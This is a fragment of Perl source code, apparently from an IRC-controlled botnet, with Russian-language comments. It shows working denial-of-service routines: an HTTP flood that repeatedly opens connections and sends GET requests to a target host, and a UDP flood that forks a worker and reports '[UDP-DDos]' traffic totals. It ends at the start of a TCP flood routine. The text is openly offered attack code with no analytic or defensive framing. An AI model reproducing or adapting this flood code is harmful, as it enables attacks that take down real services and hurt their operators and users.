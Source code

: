 		alarm (0);
		my $itime = time;
		my ($cur_time);
		$cur_time = time - $itime;

		print "attackHttpFlood started!\n";		

		while ($duration > $cur_time){
			$cur_time = time - $itime;
			my $socket = IO::Socket::INET->new(proto=>'tcp', PeerAddr=>$host, PeerPort=>80);
			print $socket "GET / HTTP/1.1\r\nAccept: */*\r\nHost: ".$host."\r\nConnection: Keep-Alive\r\n\r\n";
			close($socket);
		}
		exit;
	}
	else {
		return $child;
	}
}

# UDP from IRC (парамерты : хост, порт, размер пакета в Kb, длительность)
sub attackUdpFlood {
	$SIG{CHLD} = \&REAPER;
	$child = fork;
	if ($child == 0){
		my $host = $_[0];
		my $port = $_[1];
		my $packetSize = $_[2];
		my $duration = $_[3];

		alarm (0);							

		print "attackUdpFlood started!\n";		

		my ($dtime, %pacotes) = udpflooder("$host", "$port", "$packetSize", "$duration");
		$dtime = 1 if $dtime == 0;
		my %bytes;
		$bytes{igmp} = $packetSize * $pacotes{igmp};
		$bytes{icmp} = $packetSize * $pacotes{icmp};
		$bytes{o} = $packetSize * $pacotes{o};
		$bytes{udp} = $packetSize * $pacotes{udp};
		$bytes{tcp} = $packetSize * $pacotes{tcp};
		print "$target :[UDP-DDos] Results ".int(($bytes{icmp}+$bytes{igmp}+$bytes{udp} + $bytes{o})/1024)." Kb in ".$dtime." seconds to ".$1.".";
		exit;
	}
	else {
		return $child;
	}
}

# TCP from IRC (парамерты : хост, порт, длительность)
sub attackTcpFlood {
	$SIG{CHLD} = \&REAPER;
	$child = fork;
	if ($child == 0){
		my $host = $_[0];
		my $port = $_[1];
		my $duration = $_[2];
